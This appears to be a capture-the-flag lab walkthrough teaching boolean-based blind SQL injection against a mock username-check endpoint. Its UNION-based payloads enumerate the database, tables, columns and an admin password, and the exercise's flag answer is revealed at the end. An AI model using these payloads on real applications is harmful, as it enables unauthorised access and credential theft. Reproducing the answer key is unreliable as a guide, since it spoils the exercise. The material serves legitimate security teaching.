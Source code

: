 
# Boolean Based SQL Injection

Boolean-based SQL Injection refers to the response we receive from our injection attempts, which can be a true/false, yes/no, on/off, 1/0, or any response that has only two outcomes. This outcome confirms whether our SQL Injection payload was successful or not. At first glance, it may seem that this limited response cannot provide much information, but with just these two responses, it's possible to enumerate an entire database structure and its contents.

## Practical Exercise

On level three of the SQL Injection Examples Machine, you're presented with a mock browser with the following URL:

```
https://website.thm/checkuser?username=admin
```

The browser body contains `{"taken":true}`. This API endpoint replicates a common feature found on many signup forms, which checks whether a username has already been registered. Since the `taken` value is `true`, we can assume the username `admin` is already registered. Changing the username in the mock browser's address bar from `admin` to `admin123` will show that the `taken` value has changed to `false`.

The SQL query processed looks like this:

```sql
select * from users where username = '%username%' LIMIT 1;
```

The only input we control is the username in the query string, which we will use for SQL injection. Keeping the username as `admin123`, we can start appending to it to try to change the state of the `taken` field from `false` to `true`.

### Finding the Number of Columns

Our first task is to establish the number of columns in the users' table, which we can achieve using the UNION statement. Change the username value to:

```sql
admin123' UNION SELECT 1;--
```

Since the application responds with `taken` as `false`, we confirm this is an incorrect number of columns. Keep adding more columns until you receive a `true` response. You can confirm the correct number of columns is three by using:

```sql
admin123' UNION SELECT 1,2,3;--
```

### Enumerating the Database

Now that we've established the number of columns, we can discover the database name using the `database()` method and the `like` operator. Try the following username value:

```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```

This will return `true` because `%` matches anything. Changing it to `a%` will return `false`, confirming the database name does not start with `a`. Cycle through characters until you find a match. For example, using:

```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--
```

You confirm the database name begins with `s`. Continue this process until you discover the full database name: `sqli_three`.

### Discovering Table Names

We can now enumerate table names in the `sqli_three` database using the information_schema database. Try the following:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'a%';--
```

Continue cycling through characters until you find a table named `users`. Confirm this with:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name='users';--
```

### Enumerating Column Names

Now, we need to find the column names in the `users` table. Use the following query to search for column names beginning with the letter `a`:

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' AND TABLE_NAME='users' AND COLUMN_NAME LIKE 'a%';--
```

Continue cycling through characters until you find the columns. After discovering columns like `id`, `username`, and `password`, you can query the users table for login credentials.

### Finding Usernames and Passwords

To find a valid username, use:

```sql
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';
```

After cycling through characters, you confirm the username `admin`. To find the password, use:

```sql
admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE 'a%';
```

After cycling through characters, you discover the password is `3845`.

You can now use the username and password to access the next level.

### Questions

What is the flag after completing level three?  
**Answer format:** ***{******************}
```
 






 
```
<details>
<summary>Click to  see answer</summary>
 

```sql
THM{SQL_INJECTION_1093}
 
</details> ```


